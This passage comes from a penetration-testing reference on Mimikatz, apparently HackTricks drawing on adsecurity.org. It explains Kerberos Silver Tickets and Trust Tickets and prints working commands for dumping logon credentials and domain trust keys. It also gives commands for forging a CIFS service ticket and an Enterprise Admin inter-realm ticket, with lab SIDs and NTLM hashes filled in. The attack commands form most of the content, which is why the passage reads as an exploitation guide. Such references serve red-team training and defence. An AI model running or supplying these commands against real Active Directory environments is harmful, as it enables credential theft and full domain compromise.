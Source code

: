 A Silver Ticket is a TGS (similar to TGT in format) using the target service account’s (identified by SPN mapping) NTLM password hash to encrypt and sign.

**Example Mimikatz Command to Create a Silver Ticket:**

The following Mimikatz command creates a Silver Ticket for the CIFS service on the server adsmswin2k8r2.lab.adsecurity.org. In order for this Silver Ticket to be successfully created, the AD computer account password hash for adsmswin2k8r2.lab.adsecurity.org needs to be discovered, either from an AD domain dump or by running Mimikatz on the local system as shown above (_Mimikatz “privilege::debug” “sekurlsa::logonpasswords” exit_). The NTLM password hash is used with the /rc4 paramteer. The service SPN type also needs to be identified in the /service parameter. Finally, the target computer’s fully-qualified domain name needs to be provided in the /target parameter. Don’t forget the domain SID in the /sid parameter.

mimikatz “kerberos::golden /admin:LukeSkywalker /id:1106 /domain:lab.adsecurity.org /sid:S-1-5-21-1473643419-774954089-2222329127 /target:adsmswin2k8r2.lab.adsecurity.org /rc4:d7e2b80507ea074ad59f152a1ba20458 /service:cifs /ptt” exit

#### ​[**Trust Ticket**](https://adsecurity.org/?p=1588)​[](https://book.hacktricks.xyz/windows-hardening/stealing-credentials/credentials-mimikatz#trust-ticket)

Once the Active Directory Trust password hash is determined, a trust ticket can be generated. The trust tickets are created using the shared password between 2 Domains that trust each other. [More background on Trust Tickets.](https://adsecurity.org/?p=1588)​

**Dumping trust passwords (trust keys)**

Mimikatz “privilege::debug” “lsadump::trust /patch” exit

**Create a forged trust ticket (inter-realm TGT) using Mimikatz**

Forge the trust ticket which states the ticket holder is an Enterprise Admin in the AD Forest (leveraging SIDHistory, “sids”, across trusts in Mimikatz, my “contribution” to Mimikatz). This enables full administrative access from a child domain to the parent domain. Note that this account doesn’t have to exist anywhere as it is effectively a Golden Ticket across the trust.

Mimikatz “Kerberos::golden /domain:child.lab.adsecurity.org /sid:S-1-5-21-3677078698-724690114-1972670770 /sids:S-1-5-21-1581655573-3923512380-696647894-519 /rc4:49ed1653275f78846ff06de1a02386fd /user:DarthVader /service:krbtgt /target:lab.adsecurity.org /ticket:c:\temp\tickets\EA-ADSECLABCHILD.kirbi” exit

Trust Ticket Specific Required Parameters:

- **/**target – the target domain’s FQDN.
    

- **/**service – the kerberos service running in the target domain (krbtgt).
    

- **/**rc4 – the NTLM hash for the service kerberos service account (krbtgt).
    

- **/**ticket – provide a path and name for saving the forged ticket file to for later use or use /ptt to immediately inject the golden ticket into memory for use.
    

#### **More KERBEROS**[](https://book.hacktricks.xyz/windows-hardening/stealing-credentials/credentials-mimikatz#more-kerberos)
